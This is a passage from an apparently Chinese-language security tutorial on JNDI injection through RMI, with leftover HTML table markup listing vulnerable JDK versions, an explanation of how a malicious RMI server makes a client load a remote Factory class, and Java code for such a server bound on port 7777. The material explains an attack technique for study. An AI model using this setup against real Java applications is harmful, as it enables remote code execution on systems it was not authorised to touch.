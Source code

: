 <td data-colwidth="20.0000%" width="20.0000%" style="border-width: 0px;border-color: rgb(62, 62, 62) rgb(137, 202, 255) rgb(137, 202, 255) rgb(62, 62, 62);background-color: rgb(242, 251, 255);padding: 0px;"><section powered-by="xiumi.us" style="margin-top: 5px;margin-bottom: 5px;"><section style="padding-right: 5px;padding-left: 5px;color: rgb(137, 202, 255);font-size: 14px;"><p style="text-align: center;"><span leaf="">6u132以下</span></p></section></section></td><td data-colwidth="20.0000%" width="20.0000%" style="border-width: 0px;border-color: rgb(62, 62, 62) rgb(137, 202, 255) rgb(137, 202, 255) rgb(62, 62, 62);background-color: rgb(242, 251, 255);padding: 0px;"><section powered-by="xiumi.us" style="margin-top: 5px;margin-bottom: 5px;"><section style="padding-right: 5px;padding-left: 5px;color: rgb(137, 202, 255);font-size: 14px;"><p style="text-align: center;"><span leaf="">7u122以下</span></p></section></section></td><td data-colwidth="24.0000%" width="24.0000%" style="border-width: 0px;border-color: rgb(62, 62, 62) rgb(137, 202, 255) rgb(137, 202, 255) rgb(62, 62, 62);background-color: rgb(242, 251, 255);padding: 0px;"><section powered-by="xiumi.us" style="margin-top: 5px;margin-bottom: 5px;"><section style="padding-right: 5px;padding-left: 5px;color: rgb(137, 202, 255);font-size: 14px;"><p style="text-align: center;"><span leaf="">8u113以下</span></p></section></section></td><td data-colwidth="20.0000%" width="20.0000%" style="border-width: 0px;border-color: rgb(62, 62, 62) rgb(137, 202, 255) rgb(137, 202, 255) rgb(62, 62, 62);background-color: rgb(242, 251, 255);padding: 0px;"><section powered-by="xiumi.us" style="margin-top: 5px;margin-bottom: 5px;"><section style="padding-right: 5px;padding-left: 5px;color: rgb(137, 202, 255);font-size: 14px;"><p style="text-align: center;"><span leaf="">无</span></p></section></section></td></tr></tbody></table>  
  
  
2.1  
  
   
JNDI+RMI  
  
通过RMI进行JNDI注入，攻击者构造的恶意RMI服务器向客户端返回一个Reference对象，Reference对象中指定从远程加载构造的恶意Factory类，客户端在进行lookup的时候，会从远程动态加载攻击者构造的恶意Factory类并实例化，攻击者可以在构造方法或者是静态代码等地方加入恶意代码。  
  
  
javax.naming.Reference构造方法为：Reference(String className, String factory, String factoryLocation)  
  
className - 远程加载时所使用的类名  
  
classFactory - 加载的class中需要实例化类的名称  
  
classFactoryLocation - 提供classes数据的地址可以是file/ftp/http等协议  
  
  
因为Reference没有实现Remote接口也没有继承UnicastRemoteObject类，故不能作为远程对象bind到注册中心，所以需要使用ReferenceWrapper对Reference的实例进行一个封装。  
  
  
服务端代码如下：  

```
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;


publicclassRMIServer{


    publicstaticvoidmain(String[] args)throws Exception{
        Registry registry= LocateRegistry.createRegistry(7777);
        Reference reference = new Reference(&#34;test&#34;, &#34;test&#34;, &#34;http://localhost/&#34;);
        ReferenceWrapper wrapper = new ReferenceWrapper(reference);
        registry.bind(&#34;calc&#34;, wrapper);


    }
}
```
